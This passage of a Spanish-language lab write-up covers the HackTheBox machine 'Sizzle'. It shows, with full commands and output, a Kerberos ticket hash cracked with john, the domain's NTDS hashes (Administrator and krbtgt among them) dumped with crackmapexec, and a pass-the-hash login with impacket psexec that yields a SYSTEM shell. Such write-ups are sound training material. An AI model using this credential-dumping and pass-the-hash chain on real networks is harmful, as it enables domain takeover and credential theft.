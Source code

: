 Almaceno el hash en un archivo, borrando los saltos de línea y lo crackeo con john

```null
john -w:/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Football#7       (?)     
1g 0:00:00:05 DONE (2023-01-20 14:01) 0.1779g/s 1987Kp/s 1987Kc/s 1987KC/s Forever3!..Flubb3r
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Con crackmapexec, dumpeo todos los hashes NT del directorio activo

```null
crackmapexec smb 10.10.10.103 -u 'mrlky' -p 'Football#7' --ntds
SMB         10.10.10.103    445    SIZZLE           [*] Windows 10.0 Build 14393 x64 (name:SIZZLE) (domain:HTB.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.103    445    SIZZLE           [+] HTB.LOCAL\mrlky:Football#7 
SMB         10.10.10.103    445    SIZZLE           [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
SMB         10.10.10.103    445    SIZZLE           [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.10.10.103    445    SIZZLE           Administrator:500:aad3b435b51404eeaad3b435b51404ee:f6b7160bfc91823792e0ac3a162c9267:::
SMB         10.10.10.103    445    SIZZLE           Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.10.10.103    445    SIZZLE           krbtgt:502:aad3b435b51404eeaad3b435b51404ee:296ec447eee58283143efbd5d39408c8:::
SMB         10.10.10.103    445    SIZZLE           DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.10.10.103    445    SIZZLE           amanda:1104:aad3b435b51404eeaad3b435b51404ee:7d0516ea4b6ed084f3fdf71c47d9beb3:::
SMB         10.10.10.103    445    SIZZLE           mrlky:1603:aad3b435b51404eeaad3b435b51404ee:bceef4f6fe9c026d1d8dec8dce48adef:::
SMB         10.10.10.103    445    SIZZLE           sizzler:1604:aad3b435b51404eeaad3b435b51404ee:d79f820afad0cbc828d79e16a6f890de:::
SMB         10.10.10.103    445    SIZZLE           SIZZLE$:1001:aad3b435b51404eeaad3b435b51404ee:965424862ff18d76a5b9d9bf3b1eed36:::
SMB         10.10.10.103    445    SIZZLE           [+] Dumped 8 NTDS hashes to /root/.cme/logs/SIZZLE_10.10.10.103_2023-01-20_140303.ntds of which 7 were added to the database
```

Teniendo el hash NT del usuario Administrador, puedo hacer PassTheHash con impacket-psexec y obtener una consola interactiva

```null
psexec.py htb.local/Administrator@10.10.10.103 -hashes :f6b7160bfc91823792e0ac3a162c9267
Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 10.10.10.103.....
[*] Found writable share ADMIN$
[*] Uploading file RhGSeeeh.exe
[*] Opening SVCManager on 10.10.10.103.....
[*] Creating service IAFc on 10.10.10.103.....
[*] Starting service IAFc.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> 
```